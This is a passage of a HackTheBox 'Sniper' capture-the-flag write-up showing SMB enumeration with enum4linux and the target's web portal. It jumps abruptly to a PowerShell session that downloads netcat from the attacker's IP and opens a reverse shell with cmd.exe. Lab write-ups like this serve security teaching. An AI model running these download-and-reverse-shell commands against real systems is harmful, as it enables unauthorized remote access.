 SMB NULL sessions are not allowed so not much enumeration is possible with tools like enum4linux:

```aaa
┌─[✗]─[baud@parrot]─[~/HTB/sniper]
└──╼ $enum4linux 10.10.10.151 2>/dev/null
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Feb 26 02:40:55 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.10.151
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.151    |
 ==================================================== 
[E] Can't find workgroup/domain


 ============================================ 
|    Nbtstat Information for 10.10.10.151    |
 ============================================ 
Looking up status of 10.10.10.151
No reply from 10.10.10.151

 ===================================== 
|    Session Check on 10.10.10.151    |
 ===================================== 
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
```

The homepage of the web server does not contain anything useful other than a bunch of links to other pages:

![img](/images/writeup-sniper/2.png)

One of the pages is a blog with a few placeholder posts in it and two dropdown menus:

![img](/images/writeup-sniper/blog.png)

There's also a simple login portal:

![img](/images/writeup-sniper/3.png)

The portal allows to create an account via the registration.php page:

![img](/images/writeup-sniper/4.png)

Registering a new account and using it to login takes to an under construction page from where the only option is to log out:


[localhost]: PS C:\Users\Chris\Documents>
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }